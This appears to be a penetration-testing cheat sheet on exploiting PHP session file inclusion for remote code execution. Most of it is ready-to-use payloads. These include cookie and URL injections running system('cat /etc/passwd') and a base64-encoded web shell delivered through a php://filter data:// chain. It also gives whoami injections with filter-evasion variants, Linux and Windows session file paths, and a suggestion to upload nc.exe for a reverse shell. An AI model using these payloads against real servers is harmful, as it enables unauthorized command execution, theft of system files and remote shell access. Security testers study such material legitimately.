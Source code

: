 If a function is disabled, research how to **bypass** **disabled functions (**&#x64;isabled\_functions).
{% endhint %}

### PHP session

<pre class="language-bash" data-overflow="wrap" data-full-width="true"><code class="lang-bash">https://book.hacktricks.xyz/pentesting-web/file-inclusion#via-php-sessions

<strong>/var/lib/php5/sess\[PHPSESSID]
</strong>/var/lib/php/sessions/sess_&#x3C;php session id>
# Then look for vulnerable cookie/query parameters (GET for example) and URL encode them with a command such as 
Cookie: PHPSESSID=ccr0nvn3hp9nbe3631drnf7ba1; user_pref=&#x3C;%3fphp+system('cat+/etc/passwd')%3b%3f>
# OR
http://website.com?page=&#x3C;%3fphp+system('cat+/etc/passwd')%3b%3f>
# Another option is to inject &#x3C;?php echo phpinfo(); ?>
# First this in the input field
php://filter/convert.base64-decode/resource=data://plain/text,PD9waHAgc3lzdGVtKCRfR0VUWydjbWQnXSk7ZWNobyAnU2hlbGwgZG9uZSAhJzsgPz4+
# Then add &#x26;cmd=whoami

# ON WINDOWS
https://stackoverflow.com/questions/37603993/php-sessions-default-save-location-for-windows
Default location C:\Windows\Temp
\windows\temp\sess_$PHPESSID
# Next I try to register as whoami
&#x3C;?php system("whoami") ?>
# If it does not work, it must be some sort of filtering ongoing. Try
a&#x3C;?php echo `whoami` ?>b
&#x3C;?=`whoami`?>

Now If going to that PHP session I can see the results
Then for other commands (or even before) it is useful to check bad characters (try to make a Python script to register and see which are the badchars or check Python scripting examples here on Gitbook)
This would be a good option
&#x3C;?php echo `powershell /enc ...` ?>
# Now we could upload nc.exe and run it to get a reverse shell (this is just one option among many others)
</code></pre>
